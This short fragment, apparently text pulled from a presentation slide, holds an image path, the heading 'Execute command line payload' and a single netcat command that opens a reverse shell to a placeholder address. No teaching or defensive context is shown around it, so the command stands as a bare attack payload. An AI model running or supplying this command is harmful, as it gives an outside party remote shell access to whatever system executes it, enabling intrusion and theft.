

# Execute command line payload
nc ip_addr 15000 -e /bin/sh